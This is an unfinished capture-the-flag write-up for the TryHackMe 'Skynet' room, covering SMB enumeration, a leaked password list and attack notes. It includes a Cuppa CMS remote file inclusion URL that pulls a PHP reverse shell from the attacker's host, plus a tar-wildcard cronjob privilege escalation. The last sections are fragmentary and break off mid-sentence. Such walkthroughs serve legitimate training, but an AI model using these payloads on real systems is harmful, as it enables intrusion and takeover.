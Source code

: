 ```yaml
---
layout: default
title: Skynet
parent: TryHackMe
nav_order: 2
---
```


## [](#header-2)Summary:

1. Find/Enumarate Samba  
2. Bruteforce mail server login 
3. Find hidden web dir 
4. Use Cuppa exploit to drop remote shell for intitial access
5. Privesc using cronjob

## [](#header-2)Recon:


Intial nmap scan shows an Apache server running on port 80, email clients (pop3/imap),and some "potentially" vulnerable samaba shares.
![](pictures/nmap0-skynet.PNG)


Navigating to the apache server on port 80 we see a skynet search engine which doesn't give us much in terms of functionality.

![](pictures/website-skynet.PNG)

After running smbmap on the host we can see there are 4 seperate shares.

![](pictures/smbmap-skynet.PNG)

Running gobuster reveals two interesting finds an admin direcory and a mail server called "squirrelmail".

![](pictures/gobuster0-skynet.PNG)

## [](#header-2)Enumeration:


From here the only smbshare we are able to access at this point is "anonymous" which has "READ ONLY" permissions.
```bash
smbclient //<targetip>/anonymous 
```
Once we are in the anonymous share we can see two files/folders of interest.
![](pictures/sambadir-skynet.PNG)

From here we want to retrieve these files to further analyze with the following command.

```bash
smbget -R smb://<target ip>/anonymous
```

![](pictures/sambaget-skynet.PNG)


Reading the attention txt file we find out that passwords for users accross the system have been changed, some may call this a "clue".
```bash
kali@kali:~/Desktop/tryhackme/skynet$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```



We then find that log1.txt contains what seems to be passwords that mightve been apart of the recent change.
kali@kali:~/Desktop/tryhackme/skynet$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
'''




webmail:
https://www.dailydot.com/debug/facebook-ai-invent-language/


searchsploit cuppa
cuppa:
http://10.10.58.237/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.22.131:8000/php-reverse-shell.php



root:

Was able top get the root flag by abusing the tar function into getting the cronjob to spit out the root flag into the /tmp directory

Whenever the backups.sh cronjob runs the /var/www/html folder it then backed up and t
link tar sudo 